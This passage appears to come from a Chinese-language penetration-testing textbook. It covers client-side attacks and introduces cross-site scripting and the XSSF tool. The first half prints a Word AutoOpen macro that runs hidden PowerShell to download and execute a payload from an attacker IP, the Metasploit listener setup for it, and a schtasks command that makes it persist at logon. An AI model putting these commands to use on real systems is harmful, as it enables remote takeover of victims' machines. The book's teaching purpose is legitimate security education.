 Metasploit 框架将生成一行宏，该宏可以嵌入到文档中并用于发起攻击，如以下示例代码所示：

```
 Sub AutoOpen()
 Call Shell("PowerShell.exe -w hidden -nop -ep bypass -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.1.102:4444/boom'))"",1)
 End Sub

```

在攻击完成之前，攻击者必须为传入的 shell 准备一个侦听器（`URIPATH`由 Metasploit 随机生成；确保为侦听器设置了正确的`URIPATH`。创建侦听器的命令如下所示：

```
 msf> use exploit/windows/misc/psh_web_delivery
 msf exploit(psh_web_delivery) > set SRVHOST 192.168.1.102
 msf exploit(psh_web_delivery) > set URIPATH boom
 msf exploit(psh_web_delivery) > exploit

```

成功的攻击将在攻击者的系统上创建一个交互式外壳。

### 提示

可以使用`schtask`命令使`psh_web_delivery`持久化。以下命令将创建一个计划任务`MSOfficeMngmt`，该任务将在登录时实现`powershell.exe`（默认情况下，位于`Windows\system32`目录中）：

```
schtasks /create /tn MSOfficeMngmt /tr "powershell.exe -WindowsStyle hidden -NoLogo -NonInteractive -ep -bypass -nop -c 'IEX ((new-object net.webclient).downloadstring (''http://192.168.1.104:4444/boom'''))'" /sc onlogon /ru System

```

可在 Kali 的 PowerSploit 目录中找到旨在支持漏洞攻击后活动的其他 PowerShell 脚本。尽管 PowerShell 具有灵活性，但它也有一些缺点。

例如，如果最终用户在应用持久性机制之前关闭了包含宏的文档，则连接将丢失。

更重要的是，VBScript 和 PowerShell 等脚本仅对 Microsoft 环境有用。为了扩大客户端攻击的范围，我们需要寻找一个常见的客户端漏洞，该漏洞可以被利用，而不管其操作系统环境如何。此类漏洞的一个特定示例是跨站点脚本。

# 跨站点脚本框架

**跨站点脚本**（**XSS**）漏洞据报道是网站中最常见的可利用漏洞。据估计，高达 80%的所有应用中都存在这种物质。

当应用（通常基于 web）违反称为**同源策略**的信任概念，并显示用户提供的未经消毒以删除恶意声明的内容时，就会出现 XSS 漏洞。

XSS 漏洞至少有两种主要类型：**非持久性**和**持久性**。

最常见的类型是非持久性或反映的漏洞。当服务器立即使用客户机提供的数据显示响应时，就会发生这种情况。此漏洞的攻击可通过电子邮件或提供 URL 的第三方网站发生，该 URL 似乎引用了受信任的网站，但包含 XSS 攻击代码。如果受信任的站点易受此特定攻击的攻击，则执行链接可能会导致受害者的浏览器执行恶意脚本，从而导致危害。

当攻击者提供的数据由服务器保存，然后在其他用户浏览过程中永久显示在可信网页上时，就会出现持久（存储）XSS 漏洞。这通常发生在允许用户发布 HTML 格式消息的在线留言板和博客上。攻击者可以在网页上放置恶意脚本，该脚本对传入用户不可见，但会危及访问受影响网页的访问者。

Kali Linux 上有几种工具可用于查找 XSS 漏洞，包括**xsser**和各种漏洞扫描器。然而，有一些工具允许测试人员充分利用 XSS 漏洞，这表明了该漏洞的严重性。

**跨站点脚本框架**（**XSSF**）是一个多平台安全工具，利用 XSS 漏洞创建与目标的通信通道，支持攻击模块，包括：
